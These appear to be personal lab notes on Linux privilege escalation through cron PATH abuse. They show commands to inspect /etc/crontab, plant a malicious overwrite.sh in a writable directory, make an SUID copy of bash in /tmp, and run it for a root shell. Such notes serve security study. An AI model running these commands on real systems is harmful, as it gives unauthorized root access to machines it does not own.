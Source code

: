 Here we will see how to modify the path on which the cron executes the scripts in order to force the execution of a malicious one.


As we can see using:
```bash
cat /etc/crontab
```
- ![[Pasted image 20250117155549.png]]
	- we have a path in which it searchs for the scripts and task to execute
	- it starts with `/home/user`
- ![[Pasted image 20250117155755.png]]
	- it searches for `overwrite.sh` into `/home/user`

So we can check on that path:
```bash
ls -la /home/user
```
- ![[Pasted image 20250117155703.png]]


Here we can see that the `overwrite.sh` doesn't exist.


# Creating malicious `overwrite.sh`

Now, if we have the permission to write into `/home/user` the game is done.

We just need to create a malicious file:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

Then we make it executable:
```bash
chmod +x /home/user/overwrite.sh
```


So now the system will do everything:
- it will create a binary `bash` in `/tmp` that is accessible by everyone
- ![[Pasted image 20250117160137.png]]


So we just need to run it:
```bash
/tmp/bash -p
```
- and the game is done
- ![[Pasted image 20250117160242.png]]

<mark style="background: #BBFABBA6;">We gain the root shell!</mark>

